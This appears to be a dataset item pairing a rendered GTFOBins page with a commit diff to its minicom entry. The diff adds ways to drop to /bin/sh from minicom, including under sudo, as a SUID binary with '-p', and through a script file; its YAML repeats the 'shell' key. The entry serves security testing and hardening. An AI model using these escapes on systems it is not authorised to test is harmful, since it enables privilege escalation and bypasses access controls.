

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/minicom.md, in a window 1280 px wide. Shown: the whole page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add alternatives to minicom.md

```diff
--- a/_gtfobins/minicom.md
+++ b/_gtfobins/minicom.md
@@ -1,13 +1,42 @@
 ---
+description: Note that in some versions, `Meta-Z` is used in place of `Ctrl-A`.
 functions:
   shell:
     - description: |
         Start the following command to open the TUI interface, then:
         1. press `Ctrl-A o` and select `Filenames and paths`;
-        2. press `E` and type `/bin/sh`;
+        2. press `e`, type `/bin/sh`, then `Enter`;
         3. Press `Esc` twice;
         4. Press `Ctrl-A k` to drop the shell.
-        After the shell, exit with `Ctrl-A x`. Note that in some versions, `Meta-Z` is used in place of `Ctrl-A`.
+        After the shell, exit with `Ctrl-A x`.
       code: |
         minicom -D /dev/null
+  sudo:
+    - description: |
+        Start the following command to open the TUI interface, then:
+        1. press `Ctrl-A o` and select `Filenames and paths`;
+        2. press `e`, type `/bin/sh`, then `Enter`;
+        3. Press `Esc` twice;
+        4. Press `Ctrl-A k` to drop the shell.
+        After the shell, exit with `Ctrl-A x`.
+      code: |
+        sudo minicom -D /dev/null
+  suid:
+    - description: |
+        Start the following command to open the TUI interface, then:
+        1. press `Ctrl-A o` and select `Filenames and paths`;
+        2. press `e`, type `/bin/sh -p`, then `Enter`;
+        3. Press `Esc` twice;
+        4. Press `Ctrl-A k` to drop the shell.
+        After the shell, exit with `Ctrl-A x`.
+      code: |
+        ./minicom -D /dev/null
+  shell:
+    - description: |
+        After the shell, exit with `Ctrl-A x`.
+      code: |
+        TF=$(mktemp)
+        echo "! exec /bin/sh <$(tty) 1>$(tty) 2>$(tty)" >$TF
+        minicom -D /dev/null -S $TF
+        reset^J
 ---
```
